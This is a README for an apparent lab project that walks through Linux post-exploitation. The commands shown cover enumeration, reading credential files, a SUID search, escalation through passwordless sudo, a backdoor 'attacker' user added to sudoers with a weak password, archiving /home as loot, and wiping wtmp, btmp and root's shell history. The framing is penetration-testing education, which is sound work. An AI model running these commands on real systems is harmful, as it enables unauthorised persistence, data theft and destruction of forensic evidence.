

# Linux Privilege Escalation & Post-Exploitation Project

This project demonstrates a **realistic post-exploitation scenario** on a Linux machine after gaining initial access (e.g., via Metasploit). The objective is to escalate privileges, establish persistence, exfiltrate data, and clean up traces — all using built-in Linux tools in a **controlled lab environment**.

---

## 🔍 Overview

After successfully compromising the target system (via Metasploit or any other initial access method), the following phases were executed:

- 🔎 **System Enumeration**  
- 🔐 **Privilege Escalation**  
- 🛠️ **Persistence (Backdoor User Creation)**  
- 🗃️ **Data Exfiltration**  
- 🧹 **Log Cleanup & Anti-Forensics**

---

## 🚀 Step-by-Step Execution

### 🧠 Step 1: Initial System Enumeration

```bash
uname -a
ip a
whoami
env
```

📝 *Purpose:* Identify OS details, network interfaces, current user privileges, and environment variables.



---

### 🔐 Step 2: Checking Sensitive Files

```bash
cat /etc/passwd
cat /etc/shadow
```

> - `/etc/passwd` was readable by the current user.  
> - Access to `/etc/shadow` was denied, confirming no root privileges at this point.


---

### 🔎 Step 3: Searching for SUID Binaries

```bash
find / -perm -4000 -type f 2>/dev/null
```

📝 *Note:* SUID binaries can be exploited for local privilege escalation.


---

### 🔑 Step 4: Enumerating Sudo Privileges

```bash
sudo -l
```

The output showed the current user can run **all commands as root without a password** (`NOPASSWD: ALL`), making privilege escalation straightforward.


---

### 📈 Step 5: Gaining Root Access & Establishing Persistence

```bash
sudo su
useradd attacker -m -s /bin/bash
echo 'attacker:password123' | chpasswd
echo 'attacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

📌 Privileges were escalated to root, and a new user `attacker` was created with full sudo access for persistence.


---

### 💼 Step 6: Switching to the Attacker User and Verifying Privileges

```bash
su - attacker
sudo whoami
```

Expected Output:

```
root
```

✅ Confirmed that `attacker` has root privileges via sudo.


---

### 🗃️ Step 7: Data Exfiltration

```bash
tar -czvf /tmp/loot.tar.gz /home
```

📌 Compressed the `/home` directory into a tarball for potential data extraction.


---

### 🧹 Step 8: Covering Tracks

```bash
> /var/log/wtmp
> /var/log/btmp
> /root/.bash_history
```

📌 Cleared login records and command history to remove evidence of the attack.


---

## 📘 Real-World Application

This lab simulates a **realistic post-exploitation workflow** on Linux systems, useful in penetration testing engagements to:

- Demonstrate the **impact and risk of vulnerabilities**
- Validate **security weaknesses and misconfigurations**
- Provide clients with actionable insights to **improve their security posture**

---

## 🛠️ Tools Used

- **Metasploit Framework** — Initial access exploitation  
- **Linux Terminal Utilities:** `sudo`, `find`, `tar`, `useradd`  
- **Kali Linux** — Attacker machine environment  
